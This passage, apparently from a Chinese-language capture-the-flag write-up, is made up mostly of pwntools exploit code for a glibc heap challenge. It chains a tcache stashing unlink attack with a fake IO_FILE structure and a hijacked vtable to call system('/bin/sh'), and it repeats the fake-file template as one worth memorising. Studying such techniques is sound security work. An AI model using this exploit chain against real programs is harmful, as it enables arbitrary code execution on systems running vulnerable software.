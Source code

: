 ```plain
Change(2)
Edit(8, 2*p64(heap_base+0x13e80) + '\n') # recover

#----- tcache_stashing_unlink_attack and FILE attack
Change(1)
payload = 'A'*0x50 + p64(heap_base+0x12280) + p64(free_hook-0x20)
Edit(8, payload + '\n')

Change(3)
payload = '\x00'*0x18 + p64(heap_base+0x147c0)
payload = payload.ljust(0x158, '\x00')
Add(0x440, payload) # C3 change fake FILE _chain
Add(0x90, 'C'*0x28) # C4 triger tcache_stashing_unlink_attack, put the chunk of __free_hook into tcache

IO_str_vtable = libc_base + 0x1ED560
system_addr = libc_base + libc.sym['system']
fake_IO_FILE = 2*p64(0)
fake_IO_FILE += p64(1)                    #change _IO_write_base = 1
fake_IO_FILE += p64(0xffffffffffff)        #change _IO_write_ptr = 0xffffffffffff
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(heap_base+0x148a0)                #v4
fake_IO_FILE += p64(heap_base+0x148b8)                #v5
fake_IO_FILE = fake_IO_FILE.ljust(0xb0, '\x00')
fake_IO_FILE += p64(0)                    #change _mode = 0
fake_IO_FILE = fake_IO_FILE.ljust(0xc8, '\x00')
fake_IO_FILE += p64(IO_str_vtable)        #change vtable
payload = fake_IO_FILE + '/bin/sh\x00' + 2*p64(system_addr)
sa('Gift:', payload)


Menu(5)
sla('user:\n', '')

irt()
```

这里的 fake IO 构造也是个重点，偏移模版可以记一记

```plain
fake_IO_FILE = 2*p64(0)
fake_IO_FILE += p64(1)                    #change _IO_write_base = 1
fake_IO_FILE += p64(0xffffffffffff)        #change _IO_write_ptr = 0xffffffffffff
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(heap_base+0x148a0)                #v4
fake_IO_FILE += p64(heap_base+0x148b8)                #v5
fake_IO_FILE = fake_IO_FILE.ljust(0xb0, '\x00')
fake_IO_FILE += p64(0)                    #change _mode = 0
fake_IO_FILE = fake_IO_FILE.ljust(0xc8, '\x00')
fake_IO_FILE += p64(IO_str_vtable)        #change vtable
payload = fake_IO_FILE + '/bin/sh\x00' + 2*p64(system_addr)
```
